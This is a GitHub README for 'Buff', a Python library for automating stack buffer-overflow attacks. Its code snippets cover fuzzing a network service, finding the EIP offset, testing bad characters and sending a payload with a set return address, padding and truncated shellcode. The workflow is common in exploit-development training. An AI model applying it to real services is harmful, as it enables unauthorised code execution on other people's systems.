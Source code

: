 <h1 align="center">What is Buff?</h1>  


<p align="center">
    <img src="https://raw.githubusercontent.com/the-robot/buff/master/images/guy.png" | width=200>
</p>

<p align="center">A simple BOF library I wrote under an hour to help me automate with BOF attack.</p>
<p align="center">It comes with fuzzer and a generic method to generate exploit easily.</p>

<br/>

> Not all the methods are documented yet as I do not have time now. Feel free to read the code, it's very small code-base anyway :)

# Usage

I made a [template as well](https://github.com/the-robot/buff/blob/master/examples/template.py).

## Setup Runner
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "", postfix = "")
```

## Fuzzer
```python
runner.fuzz()

# you can set timeout, step_size, and sleep seconds
runner.fuzz(timeout = 5, step_size = 1000, sleep = 3)

# use custom fuzzer
def fuzzer(target: (str, int), timeout: int, prefix: str = "", postfix: str = "", step_size: int = 100, sleep: int = 1):
    ...

runner.setFuzzer(fuzzer)
```

## Sending Pattern
```python
runner.sendPattern()
```

## Find Pattern Offset
```python
BUFFER_SIZE = 2400
offset = buff.generator.findPatternOffset(BUFFER_SIZE, "386F4337")
print(offset)
```

## Sending Bad Characters
```python
runner.setBufferSize(2400)
runner.setEipOffset(1978)
runner.sendBadChars()

# you can also exclude by
runner.sendBadChars(exclude = ["\x42", "\x43"])

# change default EIP placeholder
runner.sendBadChars(fake_eip = "\x44\x44\x44\x44")
```

## Sending Exploit
```python
# Set buffer size
runner.setBufferSize(2400)

# Set EIP offset
runner.setEipOffset(1978)

# Set return address
eip_address = "\xaf\x11\x50\x62"
runner.setEipAddress(eip_address)

# Set padding
runner.setPaddingSize(16)

# Set exploit
exploit = ("\xdb\xde.....")
runner.setExploit(exploit)

runner.sendExploit()
```
